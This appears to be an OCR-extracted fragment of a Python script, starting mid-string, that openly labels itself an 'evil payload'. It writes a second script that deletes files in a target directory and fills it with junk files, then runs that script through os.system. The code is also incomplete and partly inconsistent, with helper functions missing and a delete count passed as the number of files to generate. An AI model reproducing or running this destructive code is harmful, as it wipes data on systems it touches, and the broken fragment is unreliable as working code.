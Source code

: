 ```python


# Generate evil payload

def generate_evil_payload(directory, num_files):

    filenames = generate_filenames(directory, num_files)

    for filename in filenames:

        with open(filename, 'w') as file:

            file.write('Evil payload!')



# Delete files and generate evil payload

def unleash_evil(directory, num_files):

    delete_files(directory)

    generate_evil_payload(directory, num_files)



# Specify the target directory and number of files to delete and generate

target_directory = '/path/to/target/directory'

num_files_to_delete = 100

num_files_to_generate = 50



# Unleash the evil!

unleash_evil(target_directory, num_files_to_delete)

'''

    with open('evil_payload.py', 'w') as file:

        file.write(payload)



def execute_payload():

    os.system('python evil_payload.py')



generate_payload()

execute_payload()

```
